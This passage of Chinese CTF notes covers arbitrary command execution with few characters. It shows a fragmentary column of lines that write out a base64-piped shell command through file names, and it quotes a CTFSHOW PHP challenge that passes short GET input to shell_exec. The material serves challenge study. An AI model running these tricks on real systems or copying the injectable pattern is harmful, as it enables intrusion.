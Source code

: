     >\ \
    >64\
    >se\
    >ba\
    >\|\
    >7\
    >Sk\
    >X\
    >x\
    >Fs\
    >FV\
    >d\
    >X0\
    >k\
    >g\
    >bC\
    >h\
    >XZ\
    >gZ\
    >A\
    >aH\
    >w\
    >D9\
    >P\\
    >S}\
    >IF\
    >{\
    >\$\
    >o\
    >ch\
    >e\
    sh a
    sh f

    ```


* 3字符

    本地搜索`有限字符下的任意命令执行总结`

    题目来源

    ```php

    //这个知识点来自CTFSHOW平台的【nl】难了 一题

    <?php
    show_source(__FILE__);
    error_reporting(0);
    if(strlen($_GET[1])<4){
        echo shell_exec($_GET[1]);
    }
    else{
        echo "hack!!!";
    }
    ?>
